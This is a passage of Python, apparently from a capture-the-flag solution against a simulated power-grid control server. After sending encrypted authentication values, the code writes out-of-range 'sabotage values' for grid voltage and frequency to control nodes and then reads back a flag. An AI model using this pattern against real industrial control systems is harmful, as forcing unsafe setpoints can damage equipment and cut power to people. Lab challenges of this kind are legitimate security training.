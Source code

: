```python
    sn.set_value(esn)
    print("Sent correct auth values\n")
    
    # Grid values
    
    time.sleep(2)

    vol = nd["Grid/Voltage"]
    freq = nd["Grid/Frequency"]
    fl = nd["Grid/Log"]

    evol = enc("310", k, v)
    efreq = enc("115", k, v)

    vol.set_value(evol)
    freq.set_value(efreq)
    print("Sent sabotage values")
    time.sleep(3)

    fl_val = fl.get_value()
    print(f"Flag: {fl_val}")

except Exception as e:
    print(f"Err: {e}")
finally:
    try:
        cl.disconnect()
    except:
        pass
    print("Disconnected")
```
